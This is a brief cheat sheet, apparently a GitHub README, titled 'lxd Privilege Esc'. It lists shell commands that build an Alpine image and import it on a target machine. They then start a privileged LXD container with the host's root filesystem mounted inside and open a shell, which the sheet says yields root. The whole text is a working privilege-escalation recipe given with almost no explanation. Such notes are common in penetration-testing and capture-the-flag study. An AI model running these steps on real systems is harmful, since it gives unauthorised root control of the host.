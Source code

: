 # lxd Privilege Esc

1. git clone https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
sudo ./build-alpine  

2. upload it to target machine

lxd init
3. lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine
lxc image list
lxc storage create default dir (if needed)
lxc init alpine mycontainer -c security.privileged=true -s default
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh

--> gained root privs.

